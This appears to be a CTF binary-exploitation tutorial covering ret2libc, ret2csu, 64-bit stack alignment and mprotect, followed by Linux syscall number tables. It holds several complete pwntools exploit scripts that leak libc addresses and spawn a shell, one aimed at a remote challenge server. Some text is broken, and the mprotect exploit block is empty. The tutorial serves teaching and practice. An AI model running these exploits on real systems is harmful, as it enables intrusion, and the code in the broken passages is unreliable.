`ret2libc` is the function in `libc` that controls the execution of the function. It usually returns to the `plt` of a certain function or the specific position of the function (i.e. the content of the `got` table entry corresponding to the function). Generally, we will choose to execute `system("/bin/sh")`, so we need to know the address of the `system` function at this time.

### Example 1
Program download link: [ret2libc1](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1).

The source program is `32`bit, and `NX` protection is enabled.

<div align=center></div>

Use `IDA` to view it, and you can see that a stack overflow occurs when executing the `gets` function.

<div align=center></div>

Using `ropgadget`, you can check whether `/bin/sh` exists.

<div align=c
enter></div>

Find out if there is a `system` function.

<div align=center></div>

Since there is a `system` function, you can just return to it and execute the `system` function. Here we need to pay attention to the structure of the function call stack. If the `system` function is called normally, we will have a corresponding return address when we call it. Here we use `bbbb` as a false address, and the corresponding parameter contents of the parameters afterwards. `exploit` is as follows:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460

# flat module can combine pattern strings and addresses and convert them to byte mode
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])

sh.sendline(payload)
sh.interactive()
```

<div align=center></div>

### Example 2
Program download link: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2).

This question is basically the same as `Example 1`, but the `/bin/sh` string no longer appears. Therefore, we need to read the string ourselves this time, and two `gadgets` are needed. The first control program reads the string, and the second control program executes `system("/bin/sh")`. Since the vulnerability is consistent with the above, `exploit` is as follows:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x8048460
pop_ebx = 0x0804843d
system_plt = 0x8048490
buf2 = 0x804A080


# flat module can combine pattern strings and addresses and convert them to byte mode
# payload1 = flat(["a"*112,gets,pop,buf2,system,"aaaa",buf2])
payload2 = flat(['a' * 112, gets_plt, system_plt, buf2, buf2])

sh.sendline(payload2)
sh.sendline('/bin/sh')
sh.interactive()
```

<div align=center></div>

### Example 3
Program download link: [ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3).

Based on `Example 2`, remove the address of the `system` function again. At this time, you need to find the address of the `system` function and the address of the `/bin/sh` string.

In the process of obtaining the address of the `system` function, two knowledge points are mainly used:
 - The `system` function belongs to `libc`, and the relative offset between functions in the `libc.so` dynamic link library is fixed.
 - Even if the program has `ASLR` protection, it is only random for the middle bit of the address, and the lowest `12` bit will not change. [libc collection](https://github.com/niklasb/libc-database)

Therefore, when we know the address of a function in `libc`, we can determine the `libc` used by the program. Then we can know the address of the `system` function. For obtaining the address of a function in `libc`, our commonly used method is to use the `got` table leakage, that is, output the content of the `got` table entry corresponding to a function. Due to the delay binding mechanism of `libc`, we need to leak the address of the function that has been executed. After obtaining `libc` according to the above steps, query the offset in the program, and then obtain the `system` address again. In addition to the manual operation method, here is a `libc` utilization tool - [LibcSearcher](https://github.com/lieanu/LibcSearcher). `libc` also has `/bin/sh` string, After getting `libc`, we can get the address of the `/bin/sh` string together.

For this question, we use the method of leaking the `__libc_start_main` address, because it is where the program is initially executed. The basic utilization idea is as follows:
 - Leaked `__libc_start_main` address.
 - Get the `libc` version.
 - Get the address of `system` and `/bin/sh`.
 - Execute the source program again, triggering the stack overflow execution of `system('/bin/sh')`.

`exploit` is as follows:

```python
# coding=utf-8
from pwn import *
from LibcSearcher import *

sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')
puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 'aaaa', binsh_addr])
sh.sendline(payload)

sh.interactive()
```

<div align=center></div>

## ret2csu
### Principle
In a `64-bit program, the first 6 parameters of the function are passed through registers, but it is difficult to find the corresponding `gadgets` for each register. At this time, we can use the `gadgets` in `__libc_csu_init` under `x64`. This function is used to initialize `libc`, and general programs will call the `libc` function, so this function will definitely exist. Let's take a look at this function first (there are certain differences in different versions of this function):

```c++
.text:00000000004005C0; void _libc_csu_init(void)
.text:000000000004005C0 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near ; DATA XREF: _start+16 o
.text:000000000004005C0 push r15
.text:000000000004005C2 push r14
.text:000000000004005C4 mov r15d, edi
.text:000000000004005C7 push r13
.text:000000000004005C9 push r12
.text:000000000004005CB lea r12, __frame_dummy_init_array_entry
.text:000000000004005D2 push rbp
.text:000000000004005D3 lea rbp
, __do_global_dtors_aux_fini_array_entry
.text:000000000004005DA push rbx
.text:000000000004005DB mov r14, rsi
.text:000000000004005DE mov r13, rdx
.text:000000000004005E1 sub rbp, r12
.text:000000000004005E4 sub rsp, 8
.text:000000000004005E8 sar rbp, 3
.text:000000000004005EC call _init_proc
.text:000000000004005F1 test rbp, rbp
.text:000000000004005F4 jz short loc_400616
.text:000000000004005F6 xor ebx, ebx
.text:00000000004005F8 nop dword ptr [rax+rax+00000000h]
.text:00000000000400600
.text:00000000000400600 loc_400600: ; CODE XREF: __libc_csu_init+54 j
.text:00000000000400600 mov rdx, r13
.text:00000000000400603 mov rsi, r14
.text:00000000000400606 mov edi, r15d
.text:00000000000400609 call qword ptr [r12+rbx*8]
.text:0000000000040060D add rbx, 1
.text:00000000000400611 cmp rbx, rbp
.text:00000000000400614 jnz short loc_400600
.text:00000000000400616
.text:00000000000400616 loc_400616: ; CODE XREF: __libc_csu_init+34 j
.text:00000000000400616 add rsp, 8
.text:0000000000040061A pop rbx
.text:0000000000040061B pop rbp
.text:0000000000040061C pop r12
.text:0000000000040061E pop r13
.text:00000000000400620 pop r14
.text:00000000000400622 pop r15
.text:00000000000400624 retn
.text:00000000000400624 __libc_csu_init endp
```

Here we can take advantage of the following points:
 - From `0x0000000000040061A` to the end, you can use the stack overflow to construct the data on the stack to control the data of the `rbx`, `rbp`, `r12`, `r13`, `r14`, `r15` registers.
 - From `0x00000000000400600` to `0x0000000000400609`, you can assign `r13` to rdx`, r14` to rsi`, and r15d` to edi` (although it is assigned here, the high 32 bit register value of `rdi` is actually `0` of `rdi` at this time, so we can actually control the value of the `rdi` register, but only control the lower 32 bits). These three registers are also the first three registers passed in the `x64` function call. In addition, if we can reasonably control `r12` and `rbx`, then we can call the function we want to call. For example, we can control `rbx` to `0`, `r12` is to store the address of the function we want to call.
 - From `0x0000000000040060D` to `0x0000000000400614`, we can control the relationship between `rbx` and `rbp` to be `rbx+1 = rbp`, so that `loc_400600` will not be executed, and the following assembler can be continued. Here we can simply set it to: `rbx=0`, `rbp=1`.

### example
Program download link: [ret2csu](https://github.com/zhengmin1989/ROP_STEP_BY_STEP/raw/master/linux_x64/level5).

First checksec. The program is `64` bit, and the stack unexecutable protection is enabled.

<div align=center></div>

`IDA` view the program and follow up with the `vulnerable_function` function. You can see that the program has a stack overflow vulnerability point. And there is neither the `system` function address nor the `/bin/sh` string in the program, so we need to construct it ourselves.

<div align=center></div>

Here we use `execve` to obtain `shell`. The basic utilization idea is as follows:
 - Use stack overflow to execute `libc_csu_gadgets` to get the `write` function address and make the program re-execute the `main` function.
 - Get the corresponding `libc` version and `execve` function address according to `libcsearcher`.
 - Use stack overflow to execute `libc_csu_gadgets` to write the `execve` address and `'/bin/sh'` address to the `bss` segment, and cause the program to re-execute the `main` function.
 - Use stack overflow to execute `libc_csu_gadgets` to execute `execve('/bin/sh')` to get `shell`.

`exploit`Reference `CTF Wiki`:

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1, write_got,8)
csu(0, 1,
write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```


# Skill
## 64-bit stack balance problem for ubuntu18 and above systems
### Preface
In the `Ubuntu18` and above versions, if the `64-bit program includes `system('/bin/sh')`, stack balance needs to be considered. Because in the `system` version under `Ubuntu18`, the address and `16` bytes are required to be aligned. If there is no stack alignment, the program will directly crash.

### reason
The byte alignment of the stack actually means that the top pointer of the stack must be an integer multiple of `16` bytes. Stack alignment makes it possible to read data in as few memory access cycles as possible. Not aligning the stack pointer may lead to serious performance degradation. But in fact, even if the data is not aligned, our program can be executed, but it is a bit inefficient. However, some models of Intel and AMD processors cannot execute correctly if the data is not aligned when executing certain SSE instructions that implement multimedia operations. These instructions operate on `16` byte memory, and the instructions that transfer data between the SSE unit and memory require that the memory address must be a multiple of `16`.

Therefore, any compiler and runtime system for the `x86_64` processor must ensure that their allocated memory may be used by the `SSE` instruction in the future, so it must be `16` byte aligned, which forms a standard:
 - The starting address of the block generated by any memory allocation function (alloca, malloc, calloc or realloc) must be a multiple of `16`.
 - The boundaries of the stack frame of most functions must be multiples of `16` bytes.

Therefore, not only the parameters and local variables passed in the runtime stack must meet byte alignment, but the stack pointer (rsp) must also be multiples of `16`.

### Example explanation
Here we use `ciscn_2019_c_1` to explain this knowledge point. In the end, we need to use the `system` function, but since the given environment is `ubuntu18`, this function needs to meet the stack alignment conditions.

There are two ways to solve this problem:
 1. Try to stack alignment via `p64(ret_addr)`
 2. Give up using `system` and use `execve`, but the disadvantage is that `3` registers are needed to construct parameters in `64` bit environment.

In this question, there is a `64` bit program. If you want to build `ROPgadget`, you may not be able to find statements with three registers at the same time, so this method may not work. To make stack alignment, it is best to use `ret`.

You can see that at this time, `0x79` plus the end `\x00`, that is, `0x80` can be divided by `0x10`, that is, `16`, and stack aligned.

<div align=center></div>

`exploit` is as follows:

```python
from pwn import *
from LibcSearcher import *

content = 1
context(os='linux', arch='amd64', log_level='debug')

remote_env = 'node4.buuoj.cn:28141'
local_env = './ciscn_2019_c_1'

elf = ELF(local_env)
ret_addr = 0x00000000004006b9
pop_rdi_addr = 0x0000000000400c83

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

log.success('puts_plt = ' + hex(puts_plt))
log.success('puts_got = ' + hex(puts_got))
log.success('main_addr = ' + hex(main_addr))

If content:
    sh = remote(remote_env.split(':')[0], int(remote_env.split(':')[1]))
else:
    sh = process(local_env)

payload_leak_libc = '\0' + 'a' * (0x50 + 7)
payload_leak_libc += p64(pop_rdi_addr)
payload_leak_libc += p64(puts_got)
payload_leak_libc += p64(puts_plt)
payload_leak_libc += p64(main_addr)

sh.sendlineafter('Input your choice!\n', '1')
sh.sendlineafter('Input your Plaintext to be encrypted\n', payload_leak_libc)
sh.recvuntil('Ciphertext\n')
sh.recvuntil('\n')

puts_addr = u64(sh.recvuntil('\n', drop=True).ljust(8, '\x00'))
log.success('puts_addr = ' + hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
libc_base_addr = puts_addr - libc.dump('puts')
binsh_addr = libc_base_addr + libc.dump('str_bin_sh')
system_addr = libc_base_addr + libc.dump('system')

log.success('libc_base_addr = ' + hex(libc_base_addr))
log.success('binsh_addr = ' + hex(binsh_addr))
log.success('system_addr = ' + hex(system_addr))

payload_attack = '\0' + 'a' * (0x50 + 7)
payload_attack += p64(ret_addr)
payload_attack += p64(pop_rdi_addr)
payload_attack += p64(binsh_addr)
payload_attack += p64(system_addr)

sh.sendlineafter('Input your choice!\n', '1')
sh.sendlineafter('Input your Plaintext to be encrypted\n', payload_attack)

sh.interactive()
```

<div align=center></div>

## Memory permission modification issue
### Ideas
Use the `mprotec` function to modify the permissions in the memory to be readable, writable and executable, and then write your own `shellcode` in the memory and execute the code. The prototype of the `mprotect` function is as follows:

```c++
int mprotect(void *addr, size_t len, int prot);
addr memory start address
len Modify the length of memory
prot memory permissions
```

### Example explanation
Here we use `get_started_3dsctf_2016` to demonstrate this type of question. The idea is: First, cause overflow, let the program jump to the `mprotect` function address, and then set the `mprotect` parameter. After modifying the memory to readable, writable and executable, redirecting the program to the memory address we modified, we just need to pass in `shellcode`.

`exploit` is as follows:

```python

```


# Linux system call number table
## 32 bits
```c++
#ifndef _ASM_X86_UNISTD_32_H
#define _ASM_X86_UNISTD_32_H 1

#define __NR_restart_syscall 0
#define __
NR_exit 1
#define __NR_fork 2
#define __NR_read 3
#define __NR_write 4
#define __NR_open 5
#define __NR_close 6
#define __NR_waitpid 7
#define __NR_creat 8
#define __NR_link 9
#define __NR_unlink 10
#define __NR_execve 11
#define __NR_chdir 12
#define __NR_time 13
#define __NR_mknod 14
#define __NR_chmod 15
#define __NR_lchown 16
#define __NR_break 17
#define __NR_oldstat 18
#define __NR_lseek 19
#define __NR_getpid 20
#define __NR_mount 21
#define __NR_umount 22
#define __NR_setuid 23
#define __NR_getuid 24
#define __NR_stime 25
#define __NR_ptrace 26
#define __NR_alarm 27
#define __NR_oldfstat 28
#define __NR_pause 29
#define __NR_utime 30
#define __NR_stty 31
#define __NR_gtty 32
#define __NR_access 33
#define __NR_nice 34
#define __NR_ftime 35
#define __NR_sync 36
#define __NR_kill 37
#define __NR_rename 38
#define __NR_mkdir 39
#define __NR_rmdir 40
#define __NR_dup 41
#define __NR_pipe 42
#define __NR_times 43
#define __NR_prof 44
#define __NR_brk 45
#define __NR_setgid 46
#define __NR_getgid 47
#define __NR_signal 48
#define __NR_geteuid 49
#define __NR_getegid 50
#define __NR_acct 51
#define __NR_umount2 52
#define __NR_lock 53
#define __NR_ioctl 54
#define __NR_fcntl 55
#define __NR_mpx 56
#define __NR_setpgid 57
#define __NR_ulimit 58
#define __NR_oldolduname 59
#define __NR_umask 60
#define __NR_chroot 61
#define __NR_usstat 62
#define __NR_dup2 63
#define __NR_getppid 64
#define __NR_getpgrp 65
#define __NR_setsid 66
#define __NR_sigaction 67
#define __NR_sgetmask 68
#define __NR_ssetmask 69
#define __NR_setreuid 70
#define __NR_setregid 71
#define __NR_sigsuspend 72
#define __NR_sigpending 73
#define __NR_sethostname 74
#define __NR_setrlimit 75
#define __NR_getrlimit 76
#define __NR_getrusage 77
#define __NR_gettimeofday 78
#define __NR_settimeofday 79
#define __NR_getgroups 80
#define __NR_setgroups 81
#define __NR_select 82
#define __NR_symlink 83
#define __NR_oldlstat 84
#define __NR_readlink 85
#define __NR_uselib 86
#define __NR_swapon 87
#define __NR_reboot 88
#define __NR_readdir 89
#define __NR_mmap 90
#define __NR_munmap 91
#define __NR_truncate 92
#define __NR_ftruncate 93
#define __NR_fchmod 94
#define __NR_fchown 95
#define __NR_getpriority 96
#define __NR_setpriority 97
#define __NR_profil 98
#define __NR_statfs 99
#define __NR_fstatfs 100
#define __NR_ioperm 101
#define __NR_socketcall 102
#define __NR_syslog 103
#define __NR_setitimer 104
#define __NR_getitimer 105
#define __NR_stat 106
#define __NR_lstat 107
#define __NR_fstat 108
#define __NR_olduname 109
#define __NR_iopl 110
#define __NR_vhangup 111
#define __NR_idle 112
#define __NR_vm86old 113
#define __NR_wait4 114
#define __NR_swapoff 115
#define __NR_sysinfo 116
#define __NR_ipc 117
#define __NR_fsync 118
#define __NR_sigreturn 119
#define __NR_clone 120
#define __NR_setdomainname 121
#define __NR_uname 122
#define __NR_modify_ldt 123
#define __NR_adjtimex 124
#define __NR_mprotect 125
#define __NR_sigprocmask 126
#define __NR_create_module 127
#define __NR_init_module 128
#define __NR_delete_module 129
#define __NR_get_kernel_syms 130
#define __NR_quotactl 131
#define __NR_getpgid 132
#define __NR_fchdir 133
#define __NR_bdflush 134
#define __NR_sysfs 135
#define __NR_personality 136
#define __NR_afs_syscall 137
#define __NR_setfsuid 138
#define __NR_setfsgid 139
#define __NR__llseek 140
#define __NR_getdents 141
#define __NR__newselect 142
#define __NR_flock 143
#define __NR_msync 144
#define __NR_readv 145
#define __NR_writev 146
#define __NR_getsid 147
#define __NR_fdatasync 148
#define __NR__sysctl 149
#define __NR_mlock 150
#define __NR_munlock 151
#define __NR_mlockall 152
#define __NR_munlockall 153
#define __NR_sched_setparam 154
#define __NR_sched_getparam 155
#define __NR_sched_setscheduler 156
#define __NR_sched_getscheduler 157
#define __NR_sched_yield 158
#define __NR_sched_get_priority_max 159
#define __NR_sched_get_priority_min 160
#define __NR_sched_rr_get_interval 161
#define __NR_nanosleep 162
#define __NR_mremap 163
#def
ine __NR_setresuid 164
#define __NR_getresuid 165
#define __NR_vm86 166
#define __NR_query_module 167
#define __NR_poll 168
#define __NR_nfsservctl 169
#define __NR_setresgid 170
#define __NR_getresgid 171
#define __NR_prctl 172
#define __NR_rt_sigreturn 173
#define __NR_rt_sigaction 174
#define __NR_rt_sigprocmask 175
#define __NR_rt_sigpending 176
#define __NR_rt_sigtimedwait 177
#define __NR_rt_sigqueueinfo 178
#define __NR_rt_sigsuspend 179
#define __NR_pread64 180
#define __NR_pwrite64 181
#define __NR_chown 182
#define __NR_getcwd 183
#define __NR_capget 184
#define __NR_capset 185
#define __NR_sigaltstack 186
#define __NR_sendfile 187
#define __NR_getpmsg 188
#define __NR_putpmsg 189
#define __NR_vfork 190
#define __NR_ugetrlimit 191
#define __NR_mmap2 192
#define __NR_truncate64 193
#define __NR_ftruncate64 194
#define __NR_stat64 195
#define __NR_lstat64 196
#define __NR_fstat64 197
#define __NR_lchown32 198
#define __NR_getuid32 199
#define __NR_getgid32 200
#define __NR_geteuid32 201
#define __NR_getegid32 202
#define __NR_setreuid32 203
#define __NR_setregid32 204
#define __NR_getgroups32 205
#define __NR_setgroups32 206
#define __NR_fchown32 207
#define __NR_setresuid32 208
#define __NR_getresuid32 209
#define __NR_setresgid32 210
#define __NR_getresgid32 211
#define __NR_chown32 212
#define __NR_setuid32 213
#define __NR_setgid32 214
#define __NR_setfsuid32 215
#define __NR_setfsgid32 216
#define __NR_pivot_root 217
#define __NR_mincore 218
#define __NR_madvise 219
#define __NR_getdents64 220
#define __NR_fcntl64 221
#define __NR_gettid 224
#define __NR_readahead 225
#define __NR_setxattr 226
#define __NR_lsetxattr 227
#define __NR_fsetxattr 228
#define __NR_getxattr 229
#define __NR_lgetxattr 230
#define __NR_fgetxattr 231
#define __NR_listxattr 232
#define __NR_llistxattr 233
#define __NR_flistxattr 234
#define __NR_removexattr 235
#define __NR_lremovexattr 236
#define __NR_fremovexattr 237
#define __NR_tkill 238
#define __NR_sendfile64 239
#define __NR_futex 240
#define __NR_sched_setaffinity 241
#define __NR_sched_getaffinity 242
#define __NR_set_thread_area 243
#define __NR_get_thread_area 244
#define __NR_io_setup 245
#define __NR_io_destroy 246
#define __NR_io_getevents 247
#define __NR_io_submit 248
#define __NR_io_cancel 249
#define __NR_fadvise64 250
#define __NR_exit_group 252
#define __NR_lookup_dcookie 253
#define __NR_epoll_create 254
#define __NR_epoll_ctl 255
#define __NR_epoll_wait 256
#define __NR_remap_file_pages 257
#define __NR_set_tid_address 258
#define __NR_timer_create 259
#define __NR_timer_settime 260
#define __NR_timer_gettime 261
#define __NR_timer_getoverrun 262
#define __NR_timer_delete 263
#define __NR_clock_settime 264
#define __NR_clock_gettime 265
#define __NR_clock_getres 266
#define __NR_clock_nanosleep 267
#define __NR_statfs64 268
#define __NR_fstatfs64 269
#define __NR_tgkill 270
#define __NR_utimes 271
#define __NR_fadvise64_64 272
#define __NR_vserver 273
#define __NR_mbind 274
#define __NR_get_mepolicy 275
#define __NR_set_mepolicy 276
#define __NR_mq_open 277
#define __NR_mq_unlink 278
#define __NR_mq_timedsend 279
#define __NR_mq_timedreceive 280
#define __NR_mq_notify 281
#define __NR_mq_getsetattr 282
#define __NR_kexec_load 283
#define __NR_waitid 284
#define __NR_add_key 286
#define __NR_request_key 287
#define __NR_keyctl 288
#define __NR_ioprio_set 289
#define __NR_ioprio_get 290
#define __NR_inotify_init 291
#define __NR_inotify_add_watch 292
#define __NR_inotify_rm_watch 293
#define __NR_migrate_pages 294
#define __NR_openat 295
#define __NR_mkdirat 296
#define __NR_mknodat 297
#define __NR_fchownat 298
#define __NR_futimesat 299
#define __NR_fstatat64 300
#define __NR_unlinkat 301
#define __NR_renameat 302
#define __NR_linkat 303
#define __NR_symlinkat 304
#define __NR_readlinkat 305
#define __NR_fchmodat 306
#define __NR_faccessat 307
#define __NR_pselect6 308
#define __NR_ppoll 309
#define __NR_unshare 310
#define __NR_set_robust_list 311
#define __NR_get_
robust_list 312
#define __NR_splice 313
#define __NR_sync_file_range 314
#define __NR_tee 315
#define __NR_vmsplice 316
#define __NR_move_pages 317
#define __NR_getcpu 318
#define __NR_epoll_pwait 319
#define __NR_utimensat 320
#define __NR_signalfd 321
#define __NR_timerfd_create 322
#define __NR_eventfd 323
#define __NR_fallocate 324
#define __NR_timerfd_settime 325
#define __NR_timerfd_gettime 326
#define __NR_signalfd4 327
#define __NR_eventfd2 328
#define __NR_epoll_create1 329
#define __NR_dup3 330
#define __NR_pipe2 331
#define __NR_inotify_init1 332
#define __NR_preadv 333
#define __NR_pwritev 334
#define __NR_rt_tgsigqueueinfo 335
#define __NR_perf_event_open 336
#define __NR_recvmmsg 337
#define __NR_fanotify_init 338
#define __NR_fanotify_mark 339
#define __NR_prlimit64 340
#define __NR_name_to_handle_at 341
#define __NR_open_by_handle_at 342
#define __NR_clock_adjtime 343
#define __NR_syncfs 344
#define __NR_sendmmsg 345
#define __NR_setns 346
#define __NR_process_vm_readv 347
#define __NR_process_vm_writev 348
#define __NR_kcmp 349
#define __NR_finit_module 350
#define __NR_sched_setattr 351
#define __NR_sched_getattr 352
#define __NR_renameat2 353
#define __NR_seccomp 354
#define __NR_getrandom 355
#define __NR_memfd_create 356
#define __NR_bpf 357
#define __NR_execveat 358
#define __NR_socket 359
#define __NR_socketpair 360
#define __NR_bind 361
#define __NR_connect 362
#define __NR_listen 363
#define __NR_accept4 364
#define __NR_getsockopt 365
#define __NR_setsockopt 366
#define __NR_getsockname 367
#define __NR_getpeername 368
#define __NR_sendto 369
#define __NR_sendmsg 370
#define __NR_recvfrom 371
#define __NR_recvmsg 372
#define __NR_shutdown 373
#define __NR_userfaultfd 374
#define __NR_membarrier 375
#define __NR_mlock2 376
#define __NR_copy_file_range 377
#define __NR_preadv2 378
#define __NR_pwritev2 379

#endif /* _ASM_X86_UNISTD_32_H */
```

### 64 bits
```c++
#ifndef _ASM_X86_UNISTD_64_H
#define _ASM_X86_UNISTD_64_H 1

#define __NR_read 0
#define __NR_write 1
#define __NR_open 2
#define __NR_close 3
#define __NR_stat 4
#define __NR_fstat 5
#define __NR_lstat 6
#define __NR_poll 7
#define __NR_lseek 8
#define __NR_mmap 9
#define __NR_mprotect 10
#define __NR_munmap 11
#define __NR_brk 12
#define __NR_rt_sigaction 13
#define __NR_rt_sigprocmask 14
#define __NR_rt_sigreturn 15
#define __NR_ioctl 16
#define __NR_pread64 17
#define __NR_pwrite64 18
#define __NR_readv 19
#define __NR_writev 20
#define __NR_access 21
#define __NR_pipe 22
#define __NR_select 23
#define __NR_sched_yield 24
#define __NR_mremap 25
#define __NR_msync 26
#define __NR_mincore 27
#define __NR_madvise 28
#define __NR_shmget 29
#define __NR_shmat 30
#define __NR_shmctl 31
#define __NR_dup 32
#define __NR_dup2 33
#define __NR_pause 34
#define __NR_nanosleep 35
#define __NR_getitimer 36
#define __NR_alarm 37
#define __NR_setitimer 38
#define __NR_getpid 39
#define __NR_sendfile 40
#define __NR_socket 41
#define __NR_connect 42
#define __NR_accept 43
#define __NR_sendto 44
#define __NR_recvfrom 45
#define __NR_sendmsg 46
#define __NR_recvmsg 47
#define __NR_shutdown 48
#define __NR_bind 49
#define __NR_listen 50
#define __NR_getsockname 51
#define __NR_getpeername 52
#define __NR_socketpair 53
#define __NR_setsockopt 54
#define __NR_getsockopt 55
#define __NR_clone 56
#define __NR_fork 57
